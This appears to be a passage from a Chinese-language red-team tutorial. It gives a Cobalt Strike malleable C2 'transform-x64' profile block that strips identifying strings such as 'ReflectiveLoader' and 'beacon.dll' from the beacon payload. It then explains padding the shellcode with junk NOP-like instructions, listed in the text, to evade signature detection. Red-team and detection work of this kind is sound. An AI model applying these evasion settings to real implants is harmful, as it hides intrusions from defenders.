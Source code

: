 ```
transform-x64 {
    prepend "\x90\x90\x90\x90\x90\x90\x90\x90\x90"; # prepend nops
    strrep "This program cannot be run in DOS mode" ""; # Remove this text
    strrep "ReflectiveLoader" "";
    strrep "beacon.x64.dll" "";
    strrep "beacon.dll" ""; # Remove this text
    strrep "msvcrt.dll" "";
    strrep "C:\\Windows\\System32\\msvcrt.dll" "";
    strrep "Stack around the variable" "";
    strrep "was corrupted." "";
    strrep "The variable" "";
    strrep "is being used without being initialized." "";
    strrep "The value of ESP was not properly saved across a function call.  This is usually a result of calling a function declared with one calling convention with a function pointer declared" "";
    strrep "A cast to a smaller data type has caused a loss of data.  If this was intentional, you should mask the source of the cast with the appropriate bitmask.  For example:" "";
    strrep "Changing the code in this way will not affect the quality of the resulting optimized code." "";
    strrep "Stack memory was corrupted" "";
    strrep "A local variable was used before it was initialized" "";
    strrep "Stack memory around _alloca was corrupted" "";
    strrep "Unknown Runtime Check Error" "";
    strrep "Unknown Filename" "";
    strrep "Unknown Module Name" "";
    strrep "Run-Time Check Failure" "";
    strrep "Stack corrupted near unknown variable" "";
    strrep "Stack pointer corruption" "";
    strrep "Cast to smaller type causing loss of data" "";
    strrep "Stack memory corruption" "";
    strrep "Local variable used before initialization" "";
    strrep "Stack around" "corrupted";
    strrep "operator" "";
    strrep "operator co_await" "";
    strrep "operator<=>" "";
}
```



## 修改shellcode的前置硬编码

我们可以在shellcode的开头添加一些汇编指令，为了避免在执行beacon时出现奔溃情况，我们必须采用不会影响shellcode执行的垃圾汇编指令(俗称"花指令")。

比如采用一些简单的“0x90”(Nop)指令，或者更好的是，使用如下汇编指令列表的动态组合

```
inc esp
inc eax
dec ebx
inc ebx
dec esp
dec eax
nop
xchg ax,ax
nop dword ptr [eax]
nop word ptr [eax+eax]
nop dword ptr [eax+eax]
nop dword ptr [eax]
nop dword ptr [eax]
```
